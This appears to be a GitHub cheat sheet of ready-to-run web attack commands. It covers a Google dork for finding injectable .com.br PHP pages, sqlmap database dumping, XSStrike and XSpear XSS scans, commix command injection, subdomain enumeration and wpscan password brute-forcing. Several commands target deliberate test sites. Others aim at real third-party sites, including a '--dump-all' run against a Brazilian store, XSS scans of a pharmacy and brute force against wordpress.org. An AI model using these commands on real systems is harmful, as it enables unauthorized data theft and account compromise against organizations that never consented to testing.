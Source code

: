 # sqlmap

# parameter finding google dork

    site: .com.br inurl .php id=

# auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1

    sqlmap -u "http://www.minasca.com.br/single-produtos.php?id=23" --dump-all --batch --threads 7

# Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5

## Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

### Paramiter finding
    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

### xss finding
    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

### xss finding
    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

### os command injection finding
    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt

<h1 align="center">sqlmap</h1>

### auto crawling
    sqlmap -u https://wordpress.org -crawl=3 --batch -o sqlmap.txt
